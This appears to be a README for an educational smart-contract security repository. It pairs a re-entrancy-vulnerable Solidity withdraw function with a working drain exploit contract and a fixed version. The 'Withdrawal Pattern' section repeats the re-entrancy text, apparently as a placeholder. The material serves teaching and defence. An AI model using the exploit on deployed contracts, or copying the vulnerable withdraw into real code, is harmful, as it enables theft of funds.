# 🚧 WORK IN PROGRESS 🚧

# Security research

This repo aims to cover the most common security vulnerabilities in EVM smart contracts,
and provides a set of tools to help developers to find and fix them.
Vulnerabilities are categorized by their type, each type has an example of a vulnerable contract,
a fixed contract (proof) and an exploit to verify the vulnerability.

- [Re-entrancy](#reentrancy-attack)
- [Withdrawal Pattern](#withdrawal-pattern)

## ReEntrancy Attack

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy)

A re-entrancy attack can happen when the **Checks-Effects-Interactions** pattern is not
respected during contracts development.

- **Check**: Validate parameters before modifying the state

- **Effects**: Change the state

- **Interactions**: Call other contracts after storage has been updated accordingly

Every time an interaction is made, the cycle starts again.

### Vulnerable withdraw

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy/ReEntrancyVulnerable.sol)

```solidity
/**
 * @dev Function to withdraw your deposited funds **vulnerable - do not use**
 */
function withdraw() public {
  /**
   * @dev The interaction is made BEFORE the state update
   *      **wrong**
   */
  (bool success, ) = msg.sender.call{ value: balances[msg.sender] }('');

  /**
   * @dev Update the state
   *      **wrong**
   */
  if (success) balances[msg.sender] = 0;
}
```

### ReEntrancy Exploit

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy/ReEntrancyExploit.sol)

Contract to exploit the vulnerable contract, it can be used to drain the contract balance.
The receive function, fired on plain Ether transfers, is used to trigger the re-entrancy attack.

```solidity
/**
 * @dev Function to attack target contract
 */
function exploit() external payable {
  require(msg.value >= 1 ether);
  target.deposit{ value: 1 ether }();
  target.withdraw();
}

/**
 * @dev Function executed on plain Ether transfers
 */
receive() external payable {
  if (address(target).balance >= 1 ether) {
    target.withdraw();
  }
}
```

### ReEntrancy Proof

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy/ReEntrancyProof.sol)

This contract is free from re-entrancy attacks

```solidity
/**
 * @dev Function to withdraw your deposited funds
 */
function withdraw() public {
  /**
   * @dev Update the state
   */
  uint256 amount = balances[msg.sender];
  balances[msg.sender] = 0;

  /**
   * @dev The interaction is made AFTER the state update
   */
  (bool success, ) = msg.sender.call{ value: amount }('');

  /**
   * @dev Check if the interaction was successful
   */
  require(success, 'Transfer failed.');
}
```

## Withdrawal Pattern

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy)

A re-entrancy attack can happen when the **Checks-Effects-Interactions** pattern is not
respected during contracts development.

- **Check**: Validate parameters before modifying the state

- **Effects**: Change the state

- **Interactions**: Call other contracts after storage has been updated accordingly

Every time an interaction is made, the cycle starts again.



## Installation

```bash
forge install
forge test
```
